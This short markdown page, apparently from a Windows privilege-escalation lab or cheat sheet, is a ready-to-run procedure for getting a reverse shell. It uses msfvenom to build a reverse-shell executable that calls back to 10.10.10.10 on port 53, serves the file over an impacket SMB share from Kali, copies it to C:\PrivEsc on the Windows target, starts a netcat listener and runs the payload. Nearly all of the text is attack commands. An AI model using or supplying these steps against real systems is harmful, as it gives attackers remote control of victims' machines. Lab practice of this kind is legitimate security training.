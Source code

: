 # Generating a Reverse Shell Executable

```JavaScript
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

On Kali, in the same directory as reverse.exe
```JavaScript
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On Windows (update the IP address with your Kali IP)
```JavaScript
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

Setup netcat listener on Kali
```JavaScript
sudo nc -nvlp 53
```

Run reverse.exe on Windows
```JavaScript
C:\PrivEsc\reverse.exe
```
